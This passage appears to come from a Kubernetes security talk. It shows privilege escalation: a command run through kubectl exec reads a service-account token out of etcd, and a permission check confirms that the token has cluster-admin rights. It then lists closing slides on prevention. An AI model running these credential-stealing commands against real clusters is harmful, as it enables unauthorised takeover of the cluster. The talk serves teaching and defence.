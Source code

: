There is a role here which has cluster-admin rights by default, let's see if we can get that token :

`k exec etcdclient -- /usr/local/bin/etcdctl get /registry/secrets/kube-system/clusterrole-aggregation-controller-token-jvl8m`

We have the token, what can it do ? 

`k auth can-i --list --token=$TOKEN`

I now have a cluster-admin token, and can do whatever I want with the cluster.

SLIDE 26 - End of our timeline of doom

SLIDE 27 - Game over

SLIDE 28 - how could we have prevented

SLIDE 29 - standing on the shoulders of giants













